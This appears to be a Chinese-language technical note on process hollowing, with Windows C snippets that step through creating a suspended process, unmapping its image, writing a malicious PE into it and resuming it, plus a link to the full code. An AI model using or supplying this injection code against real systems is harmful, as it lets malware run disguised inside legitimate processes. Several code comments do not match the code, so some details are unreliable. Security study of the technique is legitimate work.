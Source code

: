 ```yaml
---
description: 进程镂空
---
```


# Process Hollowing

## Process Hollowing简介

进程镂空是一种防御规避的进程注入技术,主要思想是卸载合法进程的内存，写入恶意软件的代码，伪装成合法进程进行恶意活动。

![](../.gitbook/assets/process-hollowing.gif)

## 执行流程

1. 创建一个挂起的合法进程
2. 读取恶意软件的代码
3. 获取挂起进程上下文与环境信息
4. 卸载挂起进程内存
5. 写入恶意软件代码
6. 恢复挂起进程

## 代码实现

### 1.创建一个挂起的合法进程

```text
	BOOL bRet = CreateProcessA(
		NULL,
		(LPSTR)"cmd",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED,
		NULL,
		NULL,
		&si,
		&pi);
```

### 2.读取恶意软件的代码

```text
	hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
	FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); 
	ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
	CloseHandle(hFile);
```

### 3.获取挂起进程上下文与环境信息

 **进程环境块**（**PEB**）是 Windows NT操作系统内部使用的数据结构，用以存储每个进程的运行时数据，每个进程又有一个独立且由操作系统进行维护的PEB。

挂起创建的进程的EBX&RDX寄存器存储着PEB,而PEB内存储着进程的实际加载地址。

```text

	GetThreadContext(pi.hThread, &ctx); //获取挂起进程上下文

#ifdef _WIN64
	ReadVirtualMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
	// 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
	// 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
	ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL); 
#endif
```

### 4.卸载挂起进程内存

如果恶意软件预期加载地址被占用，就使用ntdll内的NtUnmapViewOfSection函数卸载软件内存,该函数也是freelibrary等函数真正卸载内存使用的函数。

```text
	//判断文件预期加载地址是否被占用
	pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
	if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase) 
	{
		NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
	}
```

### 5.写入恶意软件代码

将恶意软件写入合法进程的空间,先写入文件头后逐段写入。

```text

	//为可执行映像分配内存,并写入文件头
	RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); 
	WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL); 

	//逐段写入
	for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
	{
		pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
		WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL); 
	}

```

### 6.恢复挂起进程

挂起创建的进程rcx&eax内存储着软件的入口点,需要将PEB内的实际加载地址修改为恶意软件预期的加载地址。

```text
//将rax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _WIN64
	ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); 
	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif

	//将eax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _X86_
	ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); // Set the eax register to the entry point of the injected FileImage

	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif


	SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
	ResumeThread(pi.hThread); // 恢复挂起线程

```

#### \* 实现效果

![](../.gitbook/assets/image%20%2852%29.png)

## 完整代码

* github:[https://github.com/idiotc4t/ProcessHollow.git](https://github.com/idiotc4t/ProcessHollow.git)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://attack.mitre.org/techniques/T1093/" %}



